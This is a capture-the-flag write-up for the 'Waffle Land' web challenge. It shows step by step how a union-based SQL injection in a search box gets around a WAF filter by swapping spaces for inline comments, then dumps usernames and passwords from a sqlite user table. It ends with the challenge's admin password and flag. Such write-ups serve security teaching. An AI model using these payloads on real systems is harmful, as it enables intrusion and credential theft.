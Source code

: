 # Waffle Land

## Problem

```
We got hacked, but our waffles are now safe after we mitigated the vulnerability.

Connect here:
http://jh2i.com:50024
```

## Solution

We are taken to a page advertising different waffles. There seems to be a login section, for which we don't have any credentials.
The main page has a search bar which we can use to search for entries containing input. 

![](images/waffleland1.PNG)

We try messing around with the search bar to see if it gives us any new information. Inserting just a single quote (`'`)
causes the application to crash and return us an error:

<img src= "images/waffleland2.PNG" width = "400">

This tells us that (1) the application is vulnerable to SQLi. (2) the database is in sqlite. The error message also reveals
the search query format, which queries a table called `product` (likely the waffles):
```sql
select * from product where name like '%<search input>%']
```
We can easily inject our own queries by prepending a single quote to our input (to close off the initial `select`) and appending `;--` to
our input (to comment out/escape the `%'` at the back). For example, we can search `' limit 1 --` and this will execute the following query:                                                                  
```sql
select * from product where name like '' limit 1
```
This returns the first row in the table `product` and we [only see one entry](images/waffleland3.PNG) in the result.

&nbsp;

Let's find out the number of columns (attributes) in the `product` table. This will be useful for when we want to conduct 
union-based SQLi later. We use the search input:
```sql
' order by n --
```
where `n`: any arbitrary number. This creates a query that will sort the data according to the `n`'th attribute in the table.
If `n` is greater than the number of attributes in this table the query will return an error.

![](images/waffleland4.PNG)

When `n=6`, it returns an error. Thus we can conclude the number of attributes in the `product` table is 5.

&nbsp;

We try adding our own user data. Using the search input:
```sql
' union select 1,2,3,4,5 --
```
This should add the row `1,2,3,4,5` to the query output. We should see a new entry in the search results, but instead we
get this:

![](images/waffleland5.PNG)

This means that there is some sort of Web Application Firewall (WAF) hence the challenge name. A WAF sanitises given input
by monitoring the HTTP traffic/requests of a web server and preventing attacks such as SQLi by blocking suspicious traffic.
Trying to work around the WAF, we discover that it is only filtering out searches containing the substring ` union select`. 
A simple workaround (John Hammond's signature and a lesson from NahamCon) is to replace the spaces with inline comments
`/**/`.

&nbsp;

To get more information on table schema, we use input:
```sql
'/**/union/**/select/**/name,sql,3,4,5 from sqlite_master; --
```
which returns us the following results:

![](images/waffleland6.PNG)

So we know there are two tables in the application, `product` and `user`.

|Table|Columns|
|---|---|
|product|id, name, description, prize, image|
|user|id, username, password|

`username` and `password` columns in the `user` table seems very interesting, so we try to dump the data in those fields
using union-based SQLi. For union-based SQLi to work, the number of columns from both tables must be the same. We simply 
bypass this by padding the second `select` query (ie. querying `user` table) with 2 extra columns. The input is:
```sql
' and 0=1/**/union/**/select/**/1,username,password,4,5 from user --
```
The final query is:
```sql
select * from product where name like '' and 0=1/**/union/**/select/**/1,username,password,4,5 from user --
^                                                               ^
|                                                               |
(1)                                                             (2)
```
(1) This `select` selects all entries from the `product` table and filters out entries that satisfy `0=1`. Since that is 
universally false, all the waffle entries will be filtered out.
(2) This `select` selects all entries from the `user` table and returns their `username` and `password` attributes in the
2nd and 3rd column.

Doing this shows there is a user named `admin` and their password is `NT7b#ed4$J?eZ#m_`.

![](images/waffleland7.PNG)

&nbsp;

Login using the credentials (`admin/NT7b#ed4$J?eZ#m_`) and we get the flag.

![](images/waffleland_flag.PNG)

**Flag**: `flag{check_your_WAF_rules}`

&nbsp;

#### References:
* https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection